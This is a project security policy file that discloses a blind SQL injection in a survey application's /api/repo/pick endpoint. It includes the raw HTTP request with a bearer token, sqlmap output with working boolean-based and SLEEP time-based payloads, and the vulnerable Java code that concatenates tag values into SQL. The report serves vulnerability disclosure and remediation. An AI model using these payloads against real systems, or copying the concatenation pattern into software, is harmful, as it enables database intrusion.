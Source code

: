 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| 1.2.2   | :white_check_mark: |

## Reporting a Vulnerability

There is a serious SQL blind injection vulnerability.
The request is:
POST /api/repo/pick HTTP/1.1
Host: 192.168.20.5:1991
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Cache-Control: no-cache
X-XSRF-TOKEN: 
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJ1c2VyIjp7InVzZXJJZCI6IjE1ODU0NjQxNzc0NzUwNDc0MjYifSwiaWF0IjoxNjY2ODQxMTU4fQ.yQazbEpVCOuMizgpsMMIoJT9vvEfnx4DqcBXzAscB8PGH8BYCFFjhHO_pe4qOYZSfbOOe__TLhIzQODZWQlmZg
Expires: -1
Pragma: no-cache
Content-Length: 119
Origin: http://192.168.20.5:1991
Connection: keep-alive
Referring: http://192.168.20.5:1991/survey/L0ay62/edit?mode=exam
Cookie: Hm_lvt_43e89c38a9e9332e702161a0c19bba11=1666778105; Hm_lpvt_43e89c38a9e9332e702161a0c19bba11=1666842016; sk-token=eyJhbGciOiJIUzUxMiJ9.eyJ1c2VyIjp7InVzZXJJZCI6IjE1ODU0NjQxNzc0NzUwNDc0MjYifSwiaWF0IjoxNjY2ODQxMTU4fQ.yQazbEpVCOuMizgpsMMIoJT9vvEfnx4DqcBXzAscB8PGH8BYCFFjhHO_pe4qOYZSfbOOe__TLhIzQODZWQlmZg

[{"id":"Axd_JDOJc_","repoId":"1585481117291630593","types":["Radio"],"tags":["简单"],"questionsNum":2,"examScore":1}]

Tags is the injection point.

Black box verification process

Go directly to SQLmap, the level is set to 3, and the final result is:

sqlmap identified the following injection point(s) with a total of 21258 HTTP(s) requests:
---
Parameter: JSON #4* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: [{"id":"Axd_JDOJc_","repoId":"1585481117291630593","types":["Radio"],"tags":["简单') AND 7642=7642 AND ('TlAO'='TlAO"],"questionsNum":2,"examScore":1}]

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: [{"id":"Axd_JDOJc_","repoId":"1585481117291630593","types":["Radio"],"tags":["简单') AND (SELECT 8522 FROM (SELECT(SLEEP(5)))cRCX) AND ('AezM'='AezM"],"questionsNum":2,"examScore":1}]

---
back-end DBMS: MySQL >= 5.0.12

Parameter tags exist with SQL time-based blinds.

Source code analysis
Look at the controller first, which is located at: cn.surveyking.server.api.RepoApi#pickQuestionFromRepo file:
	@PostMapping("/pick")
	public List<SurveySchema> pickQuestionFromRepo(@RequestBody List<ProjectSetting.RandomSurveyCondition> repos) {
		return repoService.pickQuestionFromRepo(repos);
	}

Further trace the repoService implementation:
...
  List<Template> repoTemplates = templateService.list(Wrappers.<Template>lambdaQuery()
					.eq(Template::getRepoId, repo.getRepoId())
					.in(!CollectionUtils.isEmpty(repo.getTypes()), Template::getQuestionType, repo.getTypes())
					.exists(!CollectionUtils.isEmpty(repo.getTags()),
							String.format("select 1 from t_tag t where t.entity_id = t_template.id and t.name in (%s)",
									Optional.ofNullable(repo.getTags()).orElse(new ArrayList<>()).stream()
											.map(x -> "'" + x + "'").collect(Collectors.joining(",")))));
...
  
The lambda expression is clearly stitched with SQL statements. Therefore, it can be proved that there is a SQL injection vulnerability this time. 

Scaling and impact analysis
Further search of SQL statements reveals that the following injection possibilities are still possible:
It is recommended that developers abandon this code style of directly stitching SQL and fully filter characters.


